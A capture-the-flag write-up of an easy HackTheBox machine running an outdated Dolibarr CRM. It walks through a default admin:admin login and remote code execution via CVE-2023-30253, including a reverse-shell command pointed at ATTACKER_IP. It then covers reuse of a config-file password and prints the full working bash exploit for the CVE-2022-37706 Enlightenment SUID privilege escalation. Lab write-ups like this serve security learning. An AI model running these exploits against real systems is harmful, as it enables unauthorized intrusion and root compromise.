








This box is rated easy difficulty on HTB. It involves us using default credentials on a subdomain that's running a CRM site. Being an outdated version, we can leverage an input field to execute PHP code and grab a reverse shell as www-data. Once on the box, dumping the web config files gives us user credentials and a flaw in the enlightenment library allows for local privilege escalation via a binary with the SUID bit set. 

## Scanning & Enumeration
I begin with an Nmap scan against the target IP to find all running services on the host; Repeating the same for UDP returns nothing.

```
$ sudo nmap -p22,80 -sCV 10.129.45.165 -oN fullscan-tcp

Starting Nmap 7.95 ( https://nmap.org ) at 2026-03-05 17:40 CST
Nmap scan report for 10.129.45.165
Host is up (0.055s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 06:2d:3b:85:10:59:ff:73:66:27:7f:0e:ae:03:ea:f4 (RSA)
|   256 59:03:dc:52:87:3a:35:99:34:44:74:33:78:31:35:fb (ECDSA)
|_  256 ab:13:38:e4:3e:e0:24:b4:69:38:a9:63:82:38:dd:f4 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.96 seconds
```

There are just two ports open:
- SSH on port 22
- An Apache web server on port 80

Not a whole lot we can do on that version of OpenSSH without credentials so I fire up Gobuster to search for subdirectories/subdomains in the background before heading over to the website.

Checking out the landing page shows a welcome page for the company. We can see that they are a cybersecurity consulting organization from the description and also that the site is built on PHP by going to any of the other tabs.



Light enumeration on the site shows no real functionality that we can exploit and I can't find a login or registration page either. The footer discloses a domain of `board.htb`, so I'll add that to my `/etc/hosts` file.



My scans return a subdomain for the site at crm.board.htb and after adding that to my hosts file as well, we discover a login panel for a Dolibarr instance. A quick Google search reveals that this service is a free, open-source Enterprise Resource Planning (ERP) and Customer Relationship Management (CRM) software designed for businesses of all sizes, freelancers, and foundations to manage operations like invoicing, inventory, and human resources.



Attempting to login with default credentials like `admin:admin` grants us a valid session and we can start looking around for any sensitive information or functions to help us grab a shell. Interestingly enough, even though we are logged in as the administrator many of the site's modules are blocked or disabled for our account.

## RCE via Uppercase Manipulation
Since it's both open-source and disclosing the version of Dolibarr v17.0.0, I take to Google in order to find any known vulnerabilities. That led me to finding [CVE-2023–30253](https://nvd.nist.gov/vuln/detail/CVE-2023-30253) which explains that implementations prior to v17.0.1 allows attackers to gain RCE with an authenticated session by supplying uppercase PHP code in injected data.

While researching, I came across this [Github repository](https://github.com/Rubikcuv5/cve-2023-30253) that contains a working PoC for grabbing a PHP reverse shell. I'll proceed with using this tool, however if you'd like to do it manually, it's as easy as finding an input field that accepts user data and later processed by PHP code. This [SentinelOne article](https://www.sentinelone.com/vulnerability-database/cve-2023-30253/) goes further in-depth and is a great read for understanding why this exploit exists.

Back to the exploit script, we just need to clone the repo, setup a Python virtual environment and install all requirements.

```
git clone https://github.com/Rubikcuv5/cve-2023-30253
cd cve-2023-30253
sudo apt update                 
sudo apt install python3-venv
python3 -m venv venv
source venv/bin/activate
pip3 install -r requirements.txt
```

Once everything is setup, the parameters we must provide are a URL, valid user credentials, the command to execute.

```
$ python CVE-2023-30253.py --url http://crm.board.htb -u admin -p admin -c whoami      
      ___           ___           ___     
     /\  \         /\__\         /\  \    
    /::\  \       /:/  /        /::\  \   
   /:/\:\  \     /:/  /        /:/\:\  \  
  /:/  \:\  \   /:/__/  ___   /::\~\:\  \ 
 /:/__/ \:\__\  |:|  | /\__\ /:/\:\ \:\__\
 \:\  \  \/__/  |:|  |/:/  / \:\~\:\ \/__/
  \:\  \        |:|__/:/  /   \:\ \:\__\  
   \:\  \        \::::/__/     \:\ \/__/  
    \:\__\        ~~~~          \:\__\    
     \/__/                       \/__/    

 ___ __ ___ ____   ____ __ ___ ___ ____
|_  )  \_  )__ /__|__ //  \_  ) __|__ /
 / / () / / |_ \___|_ \ () / /|__ \|_ \
/___\__/___|___/  |___/\__/___|___/___/

[+] By Rubikcuv5.
    
[*] Url: http://crm.board.htb
[*] User: admin
[*] Password: admin
[*] Command: whoami
[*] Verifying accessibility of URL:http://crm.board.htb/admin/index.php
[*] Attempting login to http://crm.board.htb/admin/index.php as admin
[+] Login successfully!
[*] Creating web site ...
[+] Web site was create successfully!
[*] Creating web page ...
[+] Web page was create successfully!
[*] Executing command whoami
[+] Command execution successful :
    www-data
[+] Information retrieved successfully!
```

A test run with `whoami` confirms that RCE is possible and shows that the server is running as `www-data`. Next let's try to grab a shell with the built-in `-r` flag.

```
python CVE-2023-30253.py --url http://crm.board.htb -u admin -p admin -r ATTACKER_IP 1337
```

## Privilege Escalation
Now that we have a successful shell, we can start internal enumeration in order to escalate privileges. Checking the `/home` directory shows just one other user on the box besides root named Larissa. 



We don't have access to their files and are generally limited as to what we can do with our current account permissions. Luckily we know that the CRM site had a login page, so maybe the config files will give us credentials for MySQL or Larissa's password outright.

### Password Reuse for SQL
A query to any search engine will show that configuration files for Dolibarr are stored in `/htdocs/conf/conf.php` and going there rewards us with the password to log into the database.



Attempting to dump the database is kind of janky, but shows that we only have access to the Dolibarr DB. Selecting all from the `llx_user` tables gives us two hashes for admin and superadmin, however neither of these crack. 



### Enlightenment SUID Flaw
Supplying the same password for SSH on Larissa's account works and we get a proper shell. Checking the usual routes for privesc to root reveals a few files pertaining to enlightenment with the SUID bit set.



Research shows that Enlightenment is a lightweight, fast, and highly customizable window manager and desktop shell for Linux/Unix systems. Simply put, the fact that it's owned by root and we have access to run it as them may prove very useful. 

I do some digging and discover a [security disclosure](https://www.elastic.co/docs/reference/security/prebuilt-rules/rules/linux/privilege_escalation_enlightenment_window_manager) for the `enlightenment_sys` utility that is prone to a local privilege escalation due to the system library function mishandling pathnames that begin with a `/dev/..` substring. Turns out this is [CVE-2022–37706](https://nvd.nist.gov/vuln/detail/CVE-2022-37706) and MaherAzzouzi has created a [PoC script](https://github.com/MaherAzzouzi/CVE-2022-37706-LPE-exploit) that we can utilize to pop a root shell with it.

```
#!/bin/bash

echo "CVE-2022-37706"
echo "[*] Trying to find the vulnerable SUID file..."
echo "[*] This may take few seconds..."

file=$(find / -name enlightenment_sys -perm -4000 2>/dev/null | head -1)
if [[ -z ${file} ]]
then
 echo "[-] Couldn't find the vulnerable SUID file..."
 echo "[*] Enlightenment should be installed on your system."
 exit 1
fi

echo "[+] Vulnerable SUID binary found!"
echo "[+] Trying to pop a root shell!"
mkdir -p /tmp/net
mkdir -p "/dev/../tmp/;/tmp/exploit"

echo "/bin/sh" > /tmp/exploit
chmod a+x /tmp/exploit
echo "[+] Enjoy the root shell :)"
${file} /bin/mount -o noexec,nosuid,utf8,nodev,iocharset=utf8,utf8=0,utf8=1,uid=$(id -u), "/dev/../tmp/;/tmp/exploit" /tmp///net
```

Being sure to make it executable and running it grants us root access over the system and we can grab the final flag under the `/root` directory to complete this challenge.



That's all y'all, this box was pretty easy but goes to show how keeping important services and utilities up to date can be as mitigation. I hope this was helpful to anyone following along or stuck and happy hacking!
